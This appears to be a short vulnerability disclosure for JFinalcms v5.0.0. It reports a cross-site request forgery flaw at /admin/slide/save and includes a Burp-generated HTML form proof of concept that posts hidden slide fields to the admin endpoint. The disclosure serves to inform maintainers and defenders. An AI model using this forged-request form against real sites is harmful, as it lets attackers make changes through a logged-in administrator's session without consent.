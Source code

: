 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/slide/save

![image](https://github.com/li-yu320/cms/assets/54130055/387282d4-350b-4956-9d6a-02875be39ffc)

![image](https://github.com/li-yu320/cms/assets/54130055/6cfa367b-d160-4b68-b1a7-080be86cdcf2)


create poc:

![image](https://github.com/li-yu320/cms/assets/54130055/2fef7e42-9b40-402b-8848-abcd5758ddc5)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/slide/save" method="POST">
      <input type="hidden" name="gid" value="" />
      <input type="hidden" name="image" value="&#47;static&#47;upload&#47;e2742cf5&#45;ea48&#45;4747&#45;b4b5&#45;d5961e671634&#46;jpg" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="title" value="cs" />
      <input type="hidden" name="subtitle" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![image](https://github.com/li-yu320/cms/assets/54130055/1346d88f-f770-4c22-9dc6-8aeaa6ade79e)
